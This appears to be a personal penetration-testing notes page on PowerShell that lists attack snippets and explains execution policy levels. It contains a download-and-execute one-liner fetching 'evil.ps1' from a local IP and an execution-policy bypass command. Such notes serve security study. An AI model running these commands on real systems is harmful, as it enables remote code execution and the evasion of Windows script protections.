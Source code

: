 # Powershell

Powershell was Windows' answer to improving the scripting solution within Windows.  It's incredibly powerful for both Sysadmins as well as attackers.  Here I will include a number of snippets I've found useful for attacking devices with.

#### Executing a script without an extension

```text
powershell - < ps1file
```

#### Executing a script hosted on a web-server

```text
iex (new-object net.webclient).downloadstring('http://192.168.0.1/evil.ps1')
```

## Execution Policy

The powershelll Execution Policy controls what scripts the local user can run.  We can query the execution policy of the current powershell context by running:

```text
get-executionpolicy
```

In fact there are a [whole host of methods](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/) we can use to bypass this policy.  One rather trivial method is to launch a powershell command with the execution policy unrestricted:

```text
powershell -ExecutionPolicy Bypass
```

For security reasons the default policy for executing scripts is **Restricted**. Here are the different script-policies.

**Restricted**: PowerShell won't run any scripts.

**AllSigned**: PowerShell will only run scripts that are signed with a digital signature. If you run a script signed by a publisher PowerShell hasn't seen before, PowerShell will ask whether you trust the script's publisher.

**RemoteSigned**: PowerShell won't run scripts downloaded from the Internet unless they have a digital signature, but scripts not downloaded from the Internet will run without prompting. If a script has a digital signature, PowerShell will prompt you before it runs a script from a publisher it hasn't seen before.

**Unrestricted**: No restrictions on scripts but will still prompt you before running a script downloaded from the Internet.

